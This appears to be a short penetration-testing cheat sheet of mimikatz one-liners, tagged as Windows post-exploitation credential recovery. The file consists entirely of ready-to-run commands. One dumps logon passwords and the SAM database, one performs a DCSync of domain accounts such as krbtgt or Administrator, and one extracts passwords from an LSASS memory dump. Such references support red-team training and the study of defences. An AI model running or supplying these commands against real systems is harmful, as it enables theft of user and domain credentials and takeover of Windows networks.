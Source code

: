 # mimikatz

% mimikatz, passwords

## mimikatz onliner
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## mimikatz dcsync - user (krbtgt/Administrator)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## mimikatz extract credentials from dump
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```
